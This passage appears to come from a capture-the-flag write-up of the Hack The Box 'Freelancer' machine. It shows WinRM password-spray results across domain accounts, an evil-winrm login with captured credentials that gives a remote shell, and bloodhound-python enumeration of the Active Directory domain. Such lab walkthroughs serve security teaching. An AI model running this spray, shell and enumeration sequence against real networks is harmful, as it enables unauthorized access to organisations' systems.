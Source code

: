 ```
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\administrator:MSSQLS3rv3rP@sswd#09
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\lkazanof:MSSQLS3rv3rP@sswd#09
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\mikasaAckerman:MSSQLS3rv3rP@sswd#09
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\MSSQLSERVER:MSSQLS3rv3rP@sswd#09
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sqlbackupoperator:MSSQLS3rv3rP@sswd#09
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sql_svc:MSSQLS3rv3rP@sswd#09

```

### Shell

With the creds and permissions for WinRM, I’ll get a shell:

```

oxdf@hacky$ evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\lorra199\Documents>

```

## Shell as Administrator

### Enumeration

I’ll collect Bloodhound data to get a better view of the domain:

```

oxdf@hacky$ bloodhound-python -d freelancer.htb -c all -u lorra199 -p 'PWN3D#l0rr@Armessa199' -ns 10.10.11.5 --zip
INFO: Found AD domain: freelancer.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.freelancer.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 8 computers
INFO: Connecting to LDAP server: dc.freelancer.htb
INFO: Found 30 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SetupMachine.freelancer.htb
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: 
INFO: Querying computer: Datacenter-2019
INFO: Querying computer: DC.freelancer.htb
WARNING: Could not resolve: Datacenter-2019: All nameservers failed to answer the query Datacenter-2019. IN A: Server 10.10.11.5 UDP port 53 answered SERVFAIL
INFO: Done in 00M 21S
```